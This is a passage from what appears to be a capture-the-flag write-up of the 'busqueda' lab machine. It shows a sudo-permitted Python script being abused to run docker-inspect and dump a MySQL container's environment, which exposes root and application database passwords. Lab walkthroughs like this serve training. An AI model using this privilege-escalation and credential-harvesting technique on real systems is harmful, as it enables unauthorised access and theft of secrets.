 The password also works for svc user:

```
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Let's try to run it:

```
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py test
[sudo] password for svc: 
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

From docker-inspect on mysql we get mysql password:

```
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect "{{json .Config}}" f84a6b33fb5a | jq
{
  "Hostname": "f84a6b33fb5a",
  "Domainname": "",
  "User": "",
  "AttachStdin": false,
  "AttachStdout": false,
  "AttachStderr": false,
  "ExposedPorts": {
    "3306/tcp": {},
    "33060/tcp": {}
  },
  "Tty": false,
  "OpenStdin": false,
  "StdinOnce": false,
  "Env": [
    "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
    "MYSQL_USER=gitea",
    "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
    "MYSQL_DATABASE=gitea",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "GOSU_VERSION=1.14",
    "MYSQL_MAJOR=8.0",
    "MYSQL_VERSION=8.0.31-1.el8",
    "MYSQL_SHELL_VERSION=8.0.31-1.el8"
  ],
  "Cmd": [
    "mysqld"
  ],
  "Image": "mysql:8",
  "Volumes": {
    "/var/lib/mysql": {}
  },
  "WorkingDir": "",
  "Entrypoint": [
    "docker-entrypoint.sh"
  ],
```